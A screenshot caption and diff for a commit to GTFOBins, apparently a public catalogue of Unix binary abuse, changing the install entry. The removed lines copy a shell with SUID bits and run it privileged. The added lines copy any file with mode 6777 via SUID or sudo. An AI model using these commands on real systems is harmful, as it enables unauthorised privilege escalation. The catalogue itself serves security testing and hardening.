

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/install.md, in a window 1280 px wide. Shown: the top 790 px of the page. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Make install similar to chmod

```diff
--- a/_gtfobins/install.md
+++ b/_gtfobins/install.md
@@ -1,13 +1,14 @@
 ---
+description: This can be run with elevated privileges to change permissions (`6` denotes the SUID bits) and then read, write, or execute a copy of the file.
 functions:
   suid:
     - code: |
+        LFILE=file_to_change
         TF=$(mktemp)
-        install -m 4755 `which sh` $TF
-        $TF -p
+        ./install -m 6777 $LFILE $TF
   sudo:
     - code: |
+        LFILE=file_to_change
         TF=$(mktemp)
-        sudo install -m 4755 `which sh` $TF
-        $TF -p
+        sudo install -m 6777 $LFILE $TF
 ---
```
Also changed, not shown: _gtfobins/chmod.md (+3 -3 lines).
